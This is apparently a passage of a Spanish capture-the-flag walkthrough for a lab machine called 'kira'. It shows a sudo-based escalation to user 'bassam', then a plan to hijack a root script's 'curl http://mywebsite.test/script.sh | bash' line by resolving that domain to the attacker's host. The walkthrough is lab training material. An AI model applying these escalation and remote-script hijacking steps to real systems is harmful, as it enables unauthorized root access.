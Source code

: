 ```shell
nano shell.sh

#Dentro del nano
#!/bin/bash

/bin/bash
```

```shell
chmod +x shell.sh
```

```shell
sudo -u bassam /home/kira/test.sh /home/kira/shell.sh
```

Info:

```
your name
bash  
/home/kira/test.sh: 3: /home/kira/test.sh: cannot create /home/kali/message.txt: Directory nonexistent

whoami
bassam
```

Por lo que ya seriamos el usuario `bassam` ahora nos importamos una shell mas bonita...

```shell
script /dev/null -c bash
```

Si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for bassam on kira:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bassam may run the following commands on kira:
    (root) NOPASSWD: /home/bassam/down.sh
```

Podemos ejecutar ese `.sh` como el usuario `root`...

Veremos como es por dentro ese `script.sh`...

```bash
curl "http://mywebsite.test/script.sh" |bash
```

Vemos que esta haciendo una llamada con `curl` a un sitio web que no existe resuelto por un dominio para ver el contenido de ese `script.sh` pero a la vez esta ejecutando con `bash` lo que haya en su interior, por lo que si cogemos ese dominio y lo resolvemos para que haga conexion en nuestra maquina con el `script` malicioso que pongamos lo ejecutara como `root`...

En nuestra maquina `host` crearemos el siguiente archivo...
